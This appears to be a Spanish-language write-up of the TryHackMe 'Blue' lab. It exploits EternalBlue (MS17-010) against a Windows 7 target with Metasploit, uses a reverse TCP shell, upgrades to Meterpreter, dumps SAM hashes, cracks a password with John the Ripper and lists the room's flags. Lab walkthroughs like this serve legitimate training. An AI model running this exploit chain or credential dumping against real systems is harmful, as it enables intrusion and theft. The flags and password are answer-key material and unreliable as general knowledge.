


# Blue

Blue



Maquinas que vamos a usar Kali Linux y https://tryhackme.com/room/blue

Mi IP: `10.21.203.172`

```bash
ifconfig
```



IP maquina victima: `10.10.153.192`


---

- Hacemos una enumeración de puertos
    
    ```bash
    sudo nmap -p- -sS -sV -sC --open -min-rate 5000 -n -vvv -Pn 10.10.153.192
    ```
    
    
    
    Nos llama la atención el puerto “445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds” Ya que es un candidato a la vulnerabilidad EternalBlue.
    
- Vamos a ver si es vulnerable
    
    ```bash
    nmap --script smb-vuln-ms17-010 -p445 10.10.153.192
    ```
    
    
    
    Vemos que es vulnerable .
    
- Vamos a usar Metasploit para aprovechar la vulnerabilidad.
    - Buscamos la vulnerabilidad por el CVE
        
        `search CVE:CVE-2017-0143`
        
        
        
    
    - Usamos la opción 2 y rellenamos los datos que sean necesarios en el exploit.
        
        `use 2`
        
        `show options`
        
        
        
        `set payload windows/x64/shell/reverse_tcp`
        
        `set RHOSTS 10.10.153.192
         set LHOST 10.21.203.172`
        
        `run`
        
        
        
        
        
        **¡¡OJO!! Esta maquina falla mucho si fala repetidamente el exploit quizás debas apagar la maquina victima y volverla a encender.**
        
    - Pulsamos `CTRL+Z` para pasar la sesión a **background**.
    
    - Vamos a convertir la sesión de shell en una sesión Meterpreter.
        
        `use post/multi/manage/shell_to_meterpreter`
        
    - Miramos las opciones
        
        `show options`
        
        
        

- Miramos la ID de sesion que tenemos en background.
    
    `sessions -l`
    
    
    

- Introducimos el dato de SESSION que necesitábamos
    
    `set SESSION 1`
    
    
    
- Lanzamos el modulo
    
    `run`
    
    
    
- Si volvemos a listar las sesión activas veremos que ahora tenemos 2 y además la nueva sesión somos **NT AUTHORITY\SYSTEM**
    
    `sessions -l`
    
    
    

- Entramos en la nueva sesión de meterpreter.
    
    `sessions -i 2`
    
    
    

- Miramos que usuario está ejecutando tu sesión actual
    
    `getuid`
    
    
    

- Extraemos los hashes de contraseñas almacenados en la base SAM (Security Account Manager) de Windows.
    
    `hashdump`
    
    
    

- Copiamos el hash de Jon en un archivo llamado jon.hash
    
    ```bash
    nano jon.hash
    ```
    
    
    
    
    

- Vamos a usar John the Ripper para descifrar la contraseña del hash.
    
    ```bash
    john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt jon.hash 
    ```
    
    
    
    Contraseña: `alqfna22`
    

- Volvemos a la sesión de meterpreter que teníamos abierta. y Cambiamos la shell por una del sistema.
    
    `shell`
    
    
    

- Flag1 que esta en la raíz del sistema: `C:\`
    
    
    
    
    
    `flag{access_the_machine}`
    
- Flag2 esta en la carpeta donde *se almacenan las contraseñas dentro de Windows: `C:\Windows\System32\config`*
    
    
    
    flag{sam_database_elevated_access}
    
- Flag3 esta en `C:\Users\Jon\Documents`
    
    
    
    `flag{admin_documents_can_be_valuable}`